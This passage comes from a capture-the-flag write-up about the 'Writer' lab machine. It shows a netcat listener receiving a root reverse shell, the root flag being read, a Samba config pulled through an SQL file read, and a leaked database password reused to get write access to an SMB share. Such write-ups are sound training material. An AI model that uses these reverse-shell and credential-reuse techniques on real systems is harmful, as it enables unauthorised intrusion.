 ```

oxdf@parrot$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.101 42508
bash: cannot set terminal process group (3923): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# 

```

And I can get the flag:

```

root@writer:~# cat root.txt
740e18db************************

```

## Beyond Root - Intended Foothold

The command injection in the web application was not the intended path to get a foothold. It’s actually more complicated.

### Samba

I can use the SQL file read to get the Samba config file from `/etc/samba/smb.conf`. It’s long, but at the bottom it defines a share named `writer2_project`:

```

[writer2_project]
  path = /var/www/writer2_project
  valid users = @smbgroup
  guest ok = no
  writable = yes
  browsable = yes

```

I noted the DB credentials in the writer web source, “ToughPasswordToCrack”. That password works for kyle over SMB:

```

oxdf@parrot$ smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack
                                                                                                    
[+] IP: 10.10.11.101:445        Name: writer.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        writer2_project                                         READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))

```
